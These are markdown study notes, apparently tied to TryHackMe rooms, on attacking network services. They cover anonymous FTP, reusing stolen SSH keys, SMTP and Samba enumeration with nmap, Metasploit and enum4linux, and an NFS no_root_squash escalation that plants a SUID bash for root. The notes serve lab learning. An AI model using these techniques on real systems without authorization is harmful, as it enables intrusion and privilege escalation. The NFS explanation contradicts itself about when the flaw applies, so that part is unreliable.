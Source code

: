 # Protocols & services notes

[![protocolsandservers](../../_badges/thmp/protocolsandservers.svg)](https://tryhackme.com/room/protocolsandservers)
[![protocolsandservers2](../../_badges/thmp/protocolsandservers2.svg)](https://tryhackme.com/room/protocolsandservers2)
[![networkservices](../../_badges/thmp/networkservices.svg)](https://tryhackme.com/room/networkservices)
[![networkservices2](../../_badges/thmp/networkservices2.svg)](https://tryhackme.com/room/networkservices2)

This couse IS NOT a course about protocols/services, the knowledge inside is partial as it's intended to be used in complement of the [Protocols & Services course](/info/networking/protocols/index.md). In this course, there will only be additional notes useful from a cybersecurity point of view.

> You may also check [Cyber/Bruteforce services](/cyber/exploitation/services/bruteforce.md) to try to bruteforce a service credentials.

<hr class="sep-both">

## FTP - 21 (tcp)

[See FTP Protocol for more information](/info/networking/protocols/index.md#-ftp---21-tcp)

<div class="row row-cols-md-2"><div>

* Anonymous user may have been enabled

```bash
$ ftp anonymous@IP
```
</div></div>

<hr class="sep-both">

## SSH - 22 (tcp)

[See SSH service for more information](/info/networking/protocols/index.md#-ssh---22-tcp)

<div class="row row-cols-md-2"><div>

It's usually helpful to know that users may have a folder `.ssh` in their home, in which there are SSH Keys/... To avoid transferring passwords, servers can allow users to connect using an SSH private key. The key may be protected by a passphrase. Once the user enter the passphrase, the key is unlocked, and can be used by `ssh`.

* If there is no passphrase, a hacker can use it to connect to a server.
* Else, the hacker may try to [brute force it](/cyber/random/crack_password/index.md#ssh-private-key---passphrase-cracking).
</div><div>

The private key is usually called `id_rsa`, while the public key is usually called `id_rsa.pub`. You will find inside an email which was used to sign the key. The email can help finding the username.

```bash
# if you downloaded a key, 
# you need to set the permissions correctly
$ chmod 600 /tmp/id_rsa
$ ssh login@IP -i /tmp/id_rsa
```
</div></div>

<hr class="sep-both">

## SMTP - 25 (tcp)

[See SMTP service for more information](/info/networking/protocols/index.md#-smtp---25-tcp)

<div class="row row-cols-md-2"><div>

* Metasploit

```bash
msf6 > use auxiliary/scanner/smtp/smtp_version # version
msf6 > use auxiliary/scanner/smtp/smtp_enum # users...
```

> Uses? Because of password reuse, you may find, and successfully
> crack a password used by the user on another service.
</div><div>

* Dig info using nmap

```bash
$ nmap IP -p 25 --script "*smtp*"
```

* Using `smtp-user-enum` <small>(not always working)</small>

```bash
# https://www.kali.org/tools/smtp-user-enum/
$ smtp-user-enum -M VRFY -u root -t IP
```
</div></div>

<hr class="sep-both">

## Samba - 445 (or 139 before, tcp)

[See Samba service for more information](/info/networking/protocols/index.md#-samba---445-or-139-before-tcp)

[![kenobi](../../_badges/thm/kenobi.svg)](https://tryhackme.com/room/kenobi)

<div class="row row-cols-md-2"><div>

* Find shares using nmap

```bash
$ nmap IP -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse
```

* Try connecting anonymously with no password (leave blank)

```bash
$ smbclient //IP/share_name -U Anonymous
```
</div><div>

The tool [enum4linux](https://github.com/CiscoCXSecurity/enum4linux) (0.7k ⭐) can be used to find shares, and users.

```bash
$ enum4linux options ip
$ enum4linux -a ip
# -a : list all
# -U : list of users
# -M : list of devices
# -S : list of shares
# -o : print os information
# -i : print printer information
# -v : verbose
```
</div></div>

<hr class="sep-both">

## NFS - 2049 (tcp)

[See NFS service for more information](/info/networking/protocols/index.md#-nfs---2049-tcp)

<div class="row row-cols-md-2"><div>

* Find mounted folders with nmap

```bash
$ nmap IP -p 2049 --script=nfs-showmount
```
</div><div>

NFS configuration has a vulnerability when **root_squashing** is enabled. This option usually make it that if the local user is considered to be the user "nobody". But, if root_squashing is disabled, then the root user on the local machine will have root privilege inside the share.

```bash
# on the remote host, we create a bash inside the share
$ cp /bin/bash /share/sbash
# on the local host
# we give the file root privileges
$ sudo chown root /tmp/share/sbash
$ sudo chmod +s /tmp/share/sbash
# Then on the host, running the SUID file
# will run it as root
$ /share/sbash -p
```
</div></div>